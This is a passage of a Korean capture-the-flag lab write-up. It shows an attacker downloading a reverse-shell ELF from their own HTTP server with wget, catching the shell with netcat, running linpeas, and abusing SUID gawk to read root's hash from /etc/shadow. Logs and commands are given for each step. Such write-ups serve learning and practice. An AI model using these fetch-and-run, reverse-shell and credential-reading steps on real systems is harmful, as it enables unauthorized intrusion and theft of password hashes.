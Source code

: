 
이 후, `wget http://10.8.0.140:9999/revshell.elf`를 사용하여 생성한 리버스 쉘을 호스트에 업로드 하였다.
```sh
miller@ip-172-31-157-1:/tmp$ wget http://10.8.0.140:9999/revshell.elf
--2024-08-22 07:40:16--  http://10.8.0.140:9999/revshell.elf
Connecting to 10.8.0.140:9999... connected.
HTTP request sent, awaiting response... 200 OK
Length: 194 [application/octet-stream]
Saving to: ‘revshell.elf’

revshell.elf                                    100%[====================================================================>]     194  --.-KB/s    in 0s      

2024-08-22 07:40:16 (23.0 MB/s) - ‘revshell.elf’ saved [194/194]
---------------------------------------------------------------------------------------------
┌──(kali㉿kali)-[~/observer]
└─$ python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
172.31.157.1 - - [22/Aug/2024 03:40:14] "GET /revshell.elf HTTP/1.1" 200 -
```

설치한 리버스 쉘에 실행권한을 준 뒤 실행하였고 정상적으로 리버스 쉘 연결을 성공하였다.
```sh
miller@ip-172-31-157-1:/tmp$ chmod +x revshell.elf 
miller@ip-172-31-157-1:/tmp$ ./revshell.elf
----------------------------------------------------------------------------------------------
┌──(kali㉿kali)-[~/observer]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.0.140] from (UNKNOWN) [172.31.157.1] 39182
id;hostname;whoami 
uid=1001(miller) gid=1001(miller) groups=1001(miller)
ip-172-31-157-1
miller
```
### 권한 상승
리버스 쉘 연결 후 linpeas를 업로드 한 뒤 실행한다.
```sh
miller@ip-172-31-157-1:/tmp$ wget http://10.8.0.140:9999/linpeas.sh -O linpeas
miller@ip-172-31-157-1:/tmp$ chmod +x linpeas
miller@ip-172-31-157-1:/tmp$ ./linpeas
----------------------------------------------------------------------------------------------
┌──(kali㉿kali)-[~/observer]
└─$ python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
172.31.157.1 - - [22/Aug/2024 03:47:48] "GET /linpeas.sh HTTP/1.1" 200 -
```

linpeas 실행 결과 SUID가 설정된 gawk 파일을 발견했다.
```sh
-rwsr-xr-x 1 root root 689K Mar 23  2022 /usr/bin/gawk
```
GTFObins를 통해 SUID가 설정된 gawk에 대한 정보를 찾아 실행하여 `/etc/shadow`파일에 있는 root의 패스워드를 찾았고, `hash-identifier`를 사용하여 사용된 해시함수가 MD5인 것을 확인했다.
